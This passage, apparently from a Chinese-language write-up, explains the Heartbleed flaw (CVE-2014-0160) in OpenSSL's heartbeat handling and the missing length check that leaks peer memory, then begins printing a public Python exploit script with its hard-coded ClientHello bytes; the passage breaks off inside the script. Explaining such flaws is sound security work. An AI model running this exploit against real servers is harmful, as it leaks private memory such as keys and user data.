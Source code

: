 	字节序号        备注
	
	0                 type
	
	1-2              data中具体的内容的大小为payload
	
	3-len            具体的内容pl      
当服务器收到消息后，会对该消息进行解析，也就是对data中的字符串进行解析，通过解析第0位得到type，第1-2位得到payload，接着申请(1+2+payload)大小的内存，然后再将相应的数据拷贝到该新申请的内存中。

假如客户端发送的data数据为“006abcdef”，那么服务器端解析可以得到type=0, payload=06, pl='abcdef'，申请(1+2+6=9)大小的内存，然后再将type, payload, pl写到新申请的内存中。

但在存在漏洞的OpenSSL代码中包括TLS(TCP)和DTLS(UDP)都没有做边界的检测。服务器会按照payload的大小申请内存并将内存中的数据发回给客户端。 导致攻击者可以利用这个漏洞来获得TLS链接对端（可以是服务器，也可以是客户端）内存中的一些数据，至少可以获得16KB每次，理论上讲最大可以获取64KB。

**3、漏洞检测及利用**

---
利用代码：

	#!/usr/bin/python
	 
	# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
	# The author disclaims copyright to this source code.
	 
	import sys
	import struct
	import socket
	import time
	import select
	import re
	from optparse import OptionParser
	 
	options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
	options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
	 
	def h2bin(x):
	    return x.replace(' ', '').replace('\n', '').decode('hex')
	 
	hello = h2bin('''
	16 03 02 00  dc 01 00 00 d8 03 02 53
	43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
	bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
	00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
	00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
	c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
	c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
	c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
	c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
	00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
	03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
	00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
	00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
	00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
	00 0f 00 01 01                                  
	''')
	 